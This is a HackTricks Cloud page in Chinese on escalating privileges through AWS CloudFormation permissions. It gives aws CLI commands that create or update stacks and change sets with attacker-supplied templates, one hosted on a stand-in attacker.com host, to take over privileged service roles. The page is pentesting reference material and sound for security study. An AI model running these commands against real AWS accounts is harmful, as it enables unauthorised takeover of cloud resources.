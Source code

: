 # AWS - 云形成权限提升

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## cloudformation

有关cloudformation的更多信息，请查看：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

拥有这些权限的攻击者可以通过创建一个自定义模板的CloudFormation堆栈（托管在他们的服务器上），以**以指定角色的权限执行操作**，从而**升级权限**。
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
在以下页面中，您将看到一个**利用示例**，其中包含额外权限**`cloudformation:DescribeStacks`**：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在影响：** 特定的云形成服务角色权限提升。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

在这种情况下，您可以**滥用现有的云形成堆栈**来更新它，并像之前的情景一样升级权限：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
### `cloudformation:SetStackPolicy` | `cloudformation:UpdateStack`

可以使用`cloudformation:SetStackPolicy`权限来**为自己授予`UpdateStack`权限**以对堆栈执行攻击。

**潜在影响：** 特权升级到指定的cloudformation服务角色。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

如果您拥有此权限但**没有`iam:PassRole`**，您仍然可以**更新使用的堆栈**并滥用它们已经附加的**IAM角色**。查看前一节的利用示例（只是不要在更新中指定任何角色）。

可以使用`cloudformation:SetStackPolicy`权限来**为自己授予`UpdateStack`权限**以对堆栈执行攻击。

**潜在影响：** 特权升级到已附加的cloudformation服务角色。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

具有**传递角色和创建/执行ChangeSet**权限的攻击者可以像使用CreateStack或UpdateStack一样**创建/更新新的cloudformation堆栈并滥用cloudformation服务角色**。

以下利用是**CreateStack的一个变体**，使用**ChangeSet权限**来创建一个堆栈。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`

`cloudformation:SetStackPolicy`权限可用于在堆栈上**授予自己`ChangeSet`权限**并执行攻击。

**潜在影响：** 特权升级到cloudformation服务角色。

这类似于之前的方法，但不涉及**IAM角色**，因此您可以**滥用已附加的角色**，只需修改参数：
```
--change-set-type UPDATE
```
**潜在影响:** 特权升级至已附加的cloudformation服务角色。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻击者可以利用这些权限创建/更新StackSets，以滥用任意的cloudformation角色。

**潜在影响:** 特权升级至cloudformation服务角色。

### `cloudformation:UpdateStackSet`

攻击者可以滥用此权限，无需passRole权限即可更新StackSets，以滥用已附加的cloudformation角色。

**潜在影响:** 特权升级至已附加的cloudformation角色。

## 参考资料

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
